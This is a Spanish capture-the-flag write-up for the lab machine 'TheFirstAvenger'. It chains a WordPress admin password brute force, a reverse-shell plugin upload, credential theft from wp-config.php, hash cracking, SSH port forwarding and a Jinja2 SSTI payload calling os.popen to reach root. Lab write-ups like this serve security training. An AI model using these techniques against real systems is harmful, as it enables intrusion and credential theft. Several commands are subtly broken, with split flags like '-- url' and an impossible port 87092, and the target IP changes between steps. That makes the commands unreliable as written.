 # 🛡️ Resolución del CTF "TheFirstAvenger" | TheHackersLabs

**Plataforma:** TheHackersLabs  
**Nombre de la máquina:** TheFirstAvenger  
**Dificultad:** Alta  
**Enfoque:** Enumeración web, explotación WordPress, SSTI en Jinja2, port forwarding, escalada a root

---

## 🔍 1. Escaneo de puertos con Nmap

```bash
nmap -p- -- open -sS -sC -sV -- min-rate 5000 -n -vvV -Pn 172.20.10.6 -oN escaneo.txt
```

Servicios detectados:

- 22 → OpenSSH  
- 80 → Apache HTTP

---

## 🌐 2. Análisis del puerto 80 y enumeración

Página WordPress accesible → `/wp-login.php`

Con `gobuster` descubrimos rutas adicionales en `/wp-content`, `/wp-admin`, etc.

---

## 🔍 3. Enumeración WordPress con WPScan

```bash
wpscan -- url http://thefirstavenger.thl/wp1/ \
-- passwords /usr/share/wordlists/rockyou.txt \
-- usernames admin \
-- disable-tls-checks \
-- random-user-agent \
-- max-threads 5 \
-- throttle 1 \
--no-update \
-- no-banner
```

Credenciales válidas encontradas:

- Usuario: `admin`
- Contraseña: `spongebob`

---

## 🔓 4. Acceso al panel de administración

Se sube una reverse shell como plugin (`revshell.php`) y se activa desde el panel admin.

---

## 🧠 5. Acceso por reverse shell

```bash
nc -lvnp 1234
```

Reverse shell conectada desde WordPress con permisos limitados.

---

## 🔐 6. Enumeración de archivos: `wp-config.php`

Se obtienen credenciales de MySQL desde el archivo `wp-config.php`.

Se conecta a MySQL y se accede a la base `topsecret`. Se recuperan hashes de usuarios.

---

## 🔓 7. Cracking de hash

Con `john` y `rockyou.txt` se crackea la contraseña del usuario `steve`.

---

## 💻 8. Acceso SSH como `steve`

```bash
ssh steve@192.168.1.127
```

---

## 🛠️ 9. Detección de puerto interno: 7092

Con `netstat` se detecta un servicio Flask corriendo localmente en el puerto 7092.

---

## 🔄 10. Port Forwarding

```bash
ssh -N -L 87092:127.0.0.1:7092 steve@192.168.1.127
```

Ahora el servicio Flask es accesible en `http://localhost:87092`

---

## 💥 11. Explotación SSTI en Flask (Jinja2)

Input vulnerable a SSTI → se prueba con payloads como:

```jinja
{{7*7}}
{{config}}
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()}}
```

Finalmente se lanza una reverse shell desde la SSTI.

---

## 🚪 12. Acceso como root

Gracias al SSTI ejecutando una shell como root, se obtiene acceso completo:

```bash
whoami
> root
```

---

## 🏁 13. Conclusión

- Enumeración WordPress y explotación vía plugin
- Reverse shell inicial y análisis de configuración
- Acceso a base de datos y crackeo de hash
- Acceso SSH como `steve`
- Port forwarding y explotación de SSTI
- Escalada a root

CTF con múltiples vectores reales y encadenamiento de técnicas web, hash cracking y explotación de SSTI.

